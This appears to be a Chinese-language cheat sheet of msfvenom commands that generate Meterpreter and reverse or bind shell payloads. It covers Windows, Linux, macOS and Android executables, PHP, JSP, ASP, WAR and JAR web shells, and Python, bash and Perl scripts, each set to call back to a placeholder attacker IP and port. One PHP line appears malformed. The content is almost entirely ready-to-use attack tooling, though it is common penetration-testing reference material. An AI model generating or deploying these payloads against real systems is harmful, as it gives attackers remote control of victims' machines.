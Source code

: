 生成 payload 命令示例：

```
---------- Operating System Payloads

# windows_x64_bind_tcp
msfvenom -p windows/x64/meterpreter/bind_tcp lport=4444 -f exe -o bindshell.exe

# windows_x64
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<atk_ip> lport=<atk_port> -f exe -o shell.exe

# linux_x64
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<atk_ip> lport=<atk_port> -f elf -o shell

# mac_x64
msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=<atk_ip> lport=<atk_port> -f macho -o shell

# android
msfvenom -p android/meterpreter/reverse_tcp lhost=<atk_ip> lport=<atk_port> -o payload.apk

---------- Web Payloads

# php
msfvenom -p php/meterpreter_reverse_tcp lhost=<atk_ip> lport=<atk_port> -f raw > shell.php
cat shell.php | pbcopy && echo ' shell.php && pbpaste >> shell.php

# jsp
msfvenom -p java/jsp_shell_reverse_tcp lhost=<atk_ip> lport=<atk_port> -f raw > shell.jsp

# asp
msfvenom -p windows/meterpreter/reverse_tcp lhost=<atk_ip> lport=<atk_port> -f asp > shell.asp

# war (Web application ARchive)
msfvenom -p java/jsp_shell_reverse_tcp lhost=<atk_ip> lport=<atk_port> -f war -o shell.war

# jar (Java archive)
msfvenom ‐p java/meterpreter/reverse_tcp lhost=<atk_ip> lport=<atk_port> ‐f jar -o shell.jar

---------- Scripting Payloads

# python
msfvenom -p cmd/unix/reverse_python lhost=<atk_ip> lport=<atk_port> -f raw > shell.py

# bash
msfvenom -p cmd/unix/reverse_bash lhost=<atk_ip> lport=<atk_port> -f raw > shell.sh

# perl
msfvenom -p cmd/unix/reverse_perl lhost=<atk_ip> lport=<atk_port> -f raw > shell.pl
```

生成对应编程语言的 shellcode，只需更改 `-f` 参数即可，如：raw、java、py、c 等。使用 `--list formats` 可查看支持的格式。使用 `--list payloads` 可查看支持的 payload 的种类。

---